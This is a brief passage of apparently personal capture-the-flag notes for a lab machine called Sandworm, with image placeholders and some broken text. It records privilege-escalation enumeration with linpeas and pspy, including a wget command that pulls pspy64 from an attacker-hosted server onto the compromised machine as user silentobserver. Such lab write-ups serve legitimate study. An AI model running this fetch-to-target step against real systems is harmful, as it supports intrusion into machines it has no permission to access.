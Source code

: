 ![Untitled](Sandworm%207c63f253073b46e1b0040559500c3300/Untitled%2042.png)

Now we can run **Linpeas** but takes lot of time

Try pspy in github https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64Downloa

![Untitled](Sandworm%207c63f253073b46e1b0040559500c3300/Untitled%2043.png)

Downloaded in shell of silentobserver

wget http://10.10.16.25:1234/pspy64

